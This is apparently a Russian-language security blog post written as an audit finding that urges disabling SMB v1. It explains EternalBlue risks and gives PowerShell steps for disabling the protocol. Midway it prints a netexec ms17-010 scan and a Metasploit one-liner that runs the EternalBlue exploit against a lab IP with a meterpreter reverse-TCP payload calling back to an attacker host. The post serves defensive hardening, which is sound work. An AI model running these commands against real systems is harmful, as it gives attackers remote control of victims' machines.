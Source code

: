 ```yaml
---
layout: post
title:  "SMB v1"
categories: jekyll update
image: nsa.png
---
```


Об ограничении использования протокола SMB v1

#### Недостаток
На ряде объектов ЛВС используется небезопасный протокол SMB v1.

#### Рекомендации
Ограничить использование в ЛВС протокола SMB v1. Рассмотреть возможность перехода на протоколы SMB v2/3.

#### Комментарии
Включенный SMBv1 — это серьезная угроза безопасности. Этот устаревший протокол разработан более 30 лет назад, и его уязвимости широко известны злоумышленникам. 

Если SMBv1 активен, злоумышленник может:  
**1. Использовать эксплойты**:  
   - Один из самых известных примеров — **EternalBlue**, эксплойт, который стал основой для распространения таких атак, как **WannaCry** и **NotPetya**. Эти атаки нанесли ущерб на миллиарды долларов, выводя из строя больницы, корпорации и государственные учреждения.  
   - Эксплойт позволяет злоумышленнику получить полный доступ к системе без авторизации.  

**2. Распространение по сети**:  
   - Атаки, использующие SMBv1, часто имеют червеподобный характер, что означает, что после компрометации одного устройства злоумышленник может быстро проникнуть на другие системы в вашей сети.  
   - Это особенно опасно для корпоративных сетей, где устройства могут быть взаимосвязаны.  

**3. Кража данных**:  
   - С помощью доступа через SMBv1 злоумышленник может перехватывать файлы, пароли и другую конфиденциальную информацию, что приводит к утечкам данных.  

**4. Запуск удаленного кода**:  
   - SMBv1 позволяет злоумышленнику запускать вредоносные программы или команды, фактически захватывая управление над системой.  

Для злоумышленника работающий SMBv1 — это как старая дверь с разбитым замком: она легко открывается, даже если остальная часть дома защищена.

#### Почему это критично?  
Атаки через SMBv1 особо опасны потому, что:  
- **Быстрая масштабируемость**: Одна уязвимая система может привести к компрометации всей сети.  
- **Невидимость**: В некоторых случаях атаки могут проходить незамеченными, особенно в poorly monitored environments.  
- **Непрямые последствия**: Утечка данных или отказ оборудования могут привести к финансовым потерям, репутационным рискам или даже уголовным расследованиям.  

Используя эксплойт EternalBlue злоумышленник может получить административный доступ к хосту с включенным протоколом SMB v1.

```
netexec smb 192.168.56.202 -M ms17-010
```

![](/images/smb_v1/Pasted%20image%2020241208155045.png)

```
msfconsole -q -x "use exploit/windows/smb/ms17_010_eternalblue; set rhosts 192.168.56.202; set LHOST 192.168.56.200; set payload windows/x64/meterpreter/reverse_tcp; exploit"
```

![](/images/smb_v1/Pasted%20image%2020241208155510.png)

#### Что делать?  
Отключение SMBv1 — это простой шаг, который может предотвратить катастрофу.  

**1. Проверить текущий статус SMBv1**:  
   На Windows-сервере или рабочей станции выполните команду в PowerShell:  
   ```powershell
   Get-WindowsFeature -Name FS-SMB1
   ```  
   Если SMBv1 включен, статус будет отображаться как *Installed*.  

**2. Отключить SMBv1**:  
   Выполните следующую команду в PowerShell:  
   ```powershell
   Disable-WindowsOptionalFeature -Online -FeatureName "SMB1Protocol" -NoRestart
   ```  

**3. Перезагрузите систему**, чтобы изменения вступили в силу.  

**4. Если в сети есть старые устройства, зависящие от SMBv1 (например, устаревшие сканеры), разработайте план их модернизации или замены.** 

#### Что видит злоумышленник после отключения SMBv1?  
Когда SMBv1 отключен:  
- При сканировании порта 445 я увижу, что SMB работает только на современных версиях (SMBv2 или SMBv3). Эти версии имеют встроенные механизмы защиты, такие как шифрование и аутентификация.  
- Эксплойты для SMBv1, такие как EternalBlue, больше не работают, что устраняет один из самых популярных методов атаки.  
- Моя атака замедлится или станет невозможной. Это заставит меня искать более сложные и менее очевидные уязвимости.

![](/images/smb_v1/Pasted%20image%2020241208162809.png)

В Windows 7 SMB v1 можно отключить  создав в реестре параметр `DWORD (32 бита)` в ветке реестра `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters`

#### Вывод:  
Оставлять SMBv1 включенным — это как оставить открытой дверь для злоумышленников. Вы теряете контроль над безопасностью сети, подвергая себя финансовым, репутационным и техническим рискам.  
Отключение SMBv1 — это быстрый и важный шаг, который моментально повышает защиту вашей инфраструктуры.  

Дополнительные ресурсы:

1. https://learn.microsoft.com/ru-ru/windows-server/storage/file-server/troubleshoot/detect-enable-and-disable-smbv1-v2-v3?tabs=server
2. https://habr.com/ru/companies/servermall/articles/331906/
3. https://codeby.school/blog/informacionnaya-bezopasnost/ekspluataciya-uyazvimostey-klassa-ms17-010


Картинка
https://valiant.fandom.com/wiki/National_Security_Agency